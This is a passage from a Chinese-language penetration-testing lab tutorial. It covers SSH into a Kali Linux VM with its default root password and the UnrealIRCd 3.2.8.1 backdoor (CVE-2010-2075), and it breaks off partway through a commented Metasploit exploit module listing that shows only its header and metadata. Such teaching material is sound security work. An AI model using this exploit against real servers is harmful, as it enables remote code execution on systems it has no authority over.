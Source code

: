 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483505113969.png-wm)

使用 `ping` 命令可以知道 Kali Linux 是否已经完全启动成功，当宿主机 Ubuntn 和 Kali Linux 两台主机能够 ping 通的时候，说明 Kali 已经启动。此时输入命令使用 ssh 进行连接：

```
# 连接 Kali Linux，密码为 toor
ssh root@Kali
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483505661337.png-wm)


## 三、 渗透测试

下面我们将会学习渗透测试。

### 3.1 渗透扫描

UnrealIrcd 是一个开源的 IRC 服务器，

Unreal Ircd 服务漏洞原理：

> Unreal Ircd 3.2.8.1 版本中，在 DEBUG3_DOLOG_SYSTEM 宏中包含外部引入的恶意代码，远程的攻击者能够利用这个潜在的木马执行任意代码。

漏洞索引及相关信息链接：

+ [CVE-2010-2075](http://www.cvedetails.com/cve/cve-2010-2075)
+ [OSVDB-65445](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor#)

漏洞攻击模块链接：

+ [unreal_ircd_3281_backdoor.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb)


漏洞攻击模块代码简介（见注释中）：

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

# 引入必要的模块 `msf/core`
require 'msf/core'

# 定义 Metasploit 模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'UnrealIRCD 3.2.8.1 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the
        Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
        Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2010-2075' ],
          [ 'OSVDB', '65445' ],
          [ 'URL', 'http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt' ]
```